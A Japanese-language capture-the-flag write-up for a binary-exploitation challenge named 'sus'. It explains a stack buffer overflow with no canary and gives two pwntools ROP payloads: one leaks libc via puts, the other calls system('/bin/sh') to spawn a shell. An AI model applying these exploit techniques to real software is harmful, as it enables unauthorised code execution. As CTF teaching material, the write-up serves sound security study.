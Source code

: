 # sus
> stack buffer overflow \
> ROP (Return-oriented Programing)

__*以下の解説は、読者の知識量が問題を解く前の私と同程度であることを想定しています。*__
私はpicoCTFのHere's A LIBCなどを解いていたので、このwriteupで分からなかった部分はHere's A LIBCのwriteupを読むと良いかもしれません。


## 解法

* 明らかなBOF(Buffer overflow)が見える
* `checkseck sus`をすると、canaryが無いことが分かるので、普通にBOFできる
* このことを用いて、system('/bin/sh')を呼び出したい
* libcリークをしたいので、Dockerfileを持ってきてビルドしてlibc.so.6を持ってくる <- __*最難関*__
* リークしたいのはそうだが、sus 実行ファイルの中に`pop rdi`ガジェットが存在しない(らしい)ので、どうする？
* sus()呼び出しの際にローカル変数をrdiに入れているので、BOFでローカル変数を書き換え
* やるだけ

## libcを持ってくる
Dockerfileがあるので、ビルドしてこの中からlibcを持ってくるという裏技があるらしい。天才じゃん。 \
ここで初心者の私は、`lib/libc.so.6`を持ってきたため、一生を費やしても解けませんでした。`/srv/usr/lib/x86_64-linux-gnu/libc.so.6`から取ってくると良いです。なんで？そういうものです。

## Libc leak(一度目のペイロード)
```python
offset = 0x38
payload += b'A' * offset
payload += pwn.p64(e.got['puts']) # rdi
payload += pwn.p64(1)
payload += pwn.p64(e.plt['puts'])
payload += pwn.p64(e.sym['main'])
io.sendline(payload)
```

ここはやるだけに見えてきて嬉しい。　\
ROPの最初は`e.plt["puts"]`の呼び出しから始まる。実行ファイルのバイナリを読むと分かるが、`e.got["puts"]`を記述した部分にはもともとローカル変数である`u`の値がある部分である。uはsus呼び出しの引数となっているので、sus呼び出しの際に勝手にrdiに入れてくれる。よって、ここに`e.got["puts"]`を入れて`e.plt["puts"]`を呼べばlibcリーク完了である。

## シェル起動(二度目のペイロード)
```python
payload = b''
payload += b'A' * offset
payload += pwn.p64(binsh) # rdi
payload += pwn.p64(1)
payload += pwn.p64(rop.find_gadget(['ret']).address + libc_base)
payload += pwn.p64(sys)
```
これもやるだけ(writeup 書くの 飽きた)

## 解けた！
解けました。